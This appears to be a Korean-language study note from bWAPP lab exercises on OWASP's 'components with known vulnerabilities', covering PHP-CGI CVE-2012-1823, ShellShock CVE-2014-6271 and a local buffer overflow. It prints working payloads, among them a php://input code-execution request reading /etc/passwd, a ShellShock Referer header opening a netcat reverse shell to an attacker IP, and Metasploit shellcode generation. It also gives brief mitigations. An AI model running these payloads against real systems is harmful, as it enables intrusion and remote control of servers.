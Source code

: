 # A9. 알려진 취약점이 있는 컴포넌트 사용(Using Components with Known Vulnerabilities)
- 웹 서비스 운영 시 영역별로 다양한 모듈과 라이브러리 사용
- 보안 상 안전하기 위해서는 정기적인 보안 패치가 필요

#### 제로데이 공격(Zeroday Attack)
- 패치가 아직 이루어지지 않은 상태에서 공개되는 공격
- 취약점이 공개된 시점과 패치가 발표되는 시점 사이에 존재

## #23 PHP CGI Remote Execution(CVE-2012-1823)
- PHP 5.3.12 이전 버전과 PHP 5.4.1, PHP 5.4.2 이전 버전에서 존재
- `sapi/cgi/cgi_main.c`에서 CGI 스크립트가 질의 문자열을 제대로 처리하지 못함

### 반디집 업데이트 웹 서버 해킹 사례
CVE-2012-1823을 이용하여 반디집 업데이트용 웹 서버에 백도어 스크립트 삽입
업데이터가 버전 체크 시에 접근하는 HTML 파일에 `iframe`을 사용하여 외부 사이트에 접근하도록 시도

### PHP-CGI
PHP는 CGI 기반으로, `mod_cgid`라는 모듈을 사용하여 동작할 때 `php-cgi`가 인자를 받아서 실행

#### php-cgi 옵션
`-n`: `php.ini` 파일을 사용하지 않음  
`-s`: 소스코드를 하이라이트하여 클라이언트에게 보여줌  
`-d`: `php.ini`에 정의된 설정 내용을 임의로 설정

설정 | 내용
--- | ---
allow_url_fopen=1 | 외부의 URL로부터 파일을 호출함
allow_url_include=1 | 외부의 파일을 include, include_once, require, require_once와 같은 파일로 포함을 허용
auto_prepend_file=php://input | HTTP Request Body로 데이터를 가져와 실행

### Payload
### Source Disclosure(소스 노출)
**/bWAPP/admin** 페이지에서 URL 뒤에 ?-s를 입력하면 소스코드가 출력된다.

### Remote Code Execution(원격 코드 실행)
URL에는 `-d allow_url_include=1 -d auto_prepend_file=php://input`  
Request의 Body에는 `<?php $output = shell_exec('cat /etc/passwd'); echo "$output"; die;`  
를 입력하면 `passwd` 파일의 내용이 페이지에 출력된다.

`?-d auto_prepend_file=/etc/passwd+ -n`을 입력하면 `passwd` 파일의 내용을 페이지에 출력한다.

### Reverse Shell Connection(리버스 쉘 커넥션)
`nc`로 통신을 열고 쉘 코드를 Body에 넣어 요청을 보내면 쉘을 획득할 수 있다.(쉘 코드는 검색)

대응방안
PHP 버전을 업데이트하거나 `php-cgi`를 비활성화시킨다.

---
## #24 셀쇼크(ShellShock) 취약점(CVE-2014-6271)
- 2014년 9월 24일 Stephane Chazelas에 의해 GNU Bash가 공개됨
- 공격 범위: Mac OSX, Android, OpenBSD, DHCP Client, SSH Server, CGI나 Apache를 사용하는 웹 서버, 공유기 등
- 영향을 받는 버전: GNU Bash 4.3 이하 버전
- 취약점 스캔, 악성코드 유포, DDoS 공격을 위한 본넷 구성 등

환경변수를 등록할 때 함수 선언 뒤에 명령어를 함께 입력하면 그 명령어가 실행된다.

### 취약점 분석
- Bash는 `bash-4.3/builtins/evalstring.c` 파일 내에 정의되어 있는 `parse_and_execute()` 함수를 통해 명령어를 처리하고 실행한다.
- 패치된 버전에서는 환경변수 처리 시 함수 선언문인지 확인하고 명령어 처리 횟수를 1회로 제한하여 `parse_and_execute()` 함수를 호출한다.
- 패치가 적용되긴 했지만 문제를 완벽하게 해결하지 못해 추가적인 취약점들이 발견되었다.(CVE-2014-7169, CVE-2014-7186, CVE-2014-7187)

### Reverse Shell Connection
`/bWAPP/cgi-bin/shellshock.sh`로 가는 요청에서 `Referer` 부분에 환경변수와 명령어를 입력한다.
```bash
() { :;}; echo "Vulnerable bWAPP:" $(/bin/sh -c "nc [kali ip address] 8888 -e /bin/bash")
```
터미널에 nc -lvp 8888을 입력하여 포트를 열어주고 위의 요청을 보내면 연결된다.

---
## #25 Buffer OverFlow(Local)
```Bash
# msfconsole
msf > use linux/x86/exec
msf payload(exec) > set cmd /bin/ps
msf payload(exec) > generate -b '\x00' -e x86/opt_sub -t raw -f /tmp/payload.txt
msf payload(exec) > exit

{ echo -n \'; cat /tmp/payload.txt; echo -n \'; } | perl -pe's/(.)sprintf("%%%02X", ord($1))/seg'
```
위의 명령어 입력 후 출력되는 쉘 코드를 복사한다.
이후 파이썬 코드로 `\x90 * 354 + \x8f\x92\x04\x08 + [쉘 코드]`를 출력할 수 있도록 작성한다.
출력된 내용을 검색 요청을 보낼 때 Body의 `title` 값을 바꿔 넣어 요청을 보낸다.
그러면 위에서 설정한 `cmd` 명령어의 결과가 페이지에 출력되는 것을 확인할 수 있다.
